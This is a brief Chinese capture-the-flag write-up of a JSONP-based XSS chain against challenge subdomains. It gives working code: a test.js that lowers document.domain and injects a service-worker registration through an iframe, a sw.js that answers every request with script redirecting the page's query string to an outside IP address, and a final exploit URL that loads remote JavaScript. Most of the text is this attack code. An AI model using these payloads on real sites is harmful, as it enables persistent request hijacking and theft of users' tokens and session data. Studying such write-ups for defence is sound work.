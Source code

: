 整体思路



- 寻找一个jsonp-xss点   ➡️https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=alert(1)//

- 将两个子域降域 Bypass 同源
- 在xss子域中iframe拉取auth子域，并注入恶意Servive worker 拦截请求，发送至自己的vps
- 通过jsonp函数+script-src属性跨域加载js



test.js

```javascript
document.domain = "xss.eec5b2.challenge.gcsis.cn";
var iframetest = document.createElement('iframe');
iframetest.src = 'https://auth.xss.eec5b2.challenge.gcsis.cn/';
iframetest.addEventListener("load", function(){ 
	iframetest.contentWindow.eval(`navigator.serviceWorker.register("/api/loginStatus?callback=importScripts('//li3hiu.lihuaiqiu.repl.co/sw.js');//")`)
});
document.body.appendChild(iframetest);
```

sw.js

```javascript
self.addEventListener('install', function(event) {
        console.log('install ok!');
});
self.addEventListener('fetch', function (event) {
    var body = '<script>location="http://139.224.236.99?lih3iu"+location.search</script>';
    var init = {headers: {"Content-Type": "text/html"}};
    
    var res = new Response(body, init);
    event.respondWith(res.clone());
    
});
```



最终exp



```
https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=jsonp("https://li3hiu.lihuaiqiu.repl.co/2.js");
```



![0BMCrV.png](https://s1.ax1x.com/2020/10/08/0BMCrV.png)